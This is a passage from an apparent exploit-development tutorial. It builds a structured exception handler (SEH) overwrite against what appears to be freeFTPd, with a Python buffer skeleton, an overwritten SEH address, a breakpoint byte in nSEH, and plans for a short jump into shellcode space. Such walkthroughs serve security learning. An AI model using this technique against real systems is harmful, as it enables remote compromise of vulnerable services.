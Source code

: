 I am super confused...but whatever, don't know, don't care. We'll use these ghost ROPs to our advantage. 

```python
SEH = pack("<I", 0x7ffc0519)       # SEH should read 1905FC7F
nSEH = "\xCC"*4       # The next SEH should have an address of CCCCCCCC
buffer = "A"*982
buffer += nSEH
buffer += SEH
buffer += "D"*(1000-982-8) # Add 10 D's as padding to maintain a 1000-byte buffer adjusting for the length of A's, B's, and C's
```

Set a breakpoint on that address, restart the application, and rerun the exploit. It doesn't matter that the POP/POP/RET opcodes are in a read-only memory segment. We don't need to execute them, we just need to be able to read. Unfortunately, since this is in some bizarre kernel space, we cannot directly set a breakpoint on it, so we will have to get crafty by using the exploit and using "\xCC" as the address for the next SEH. Hex bytes "CC" will cause Immunity Debugger to pause execution once it see's those bytes being executed. 

![screenshot](/assets/img/freeftpd/skeleton_breakpoint.PNG)

Outstanding! We've landed on "\xCC" as expected, so now we need to figure out what to do. Unfortunately, 10 bytes of space is not going to cut it for any potential shellcode, so we will have to expand the buffer. Additionally, there is some latent code inserted after SEH is overwritten, so we will have to do a short jump over these bytes. This can easily be done with nasm_shell (also from the Metasploit Framework). All in all, we will have to jump short 6 bytes to land in our buffer of "D's". 

![screenshot](/assets/img/freeftpd/jmp_six.PNG)
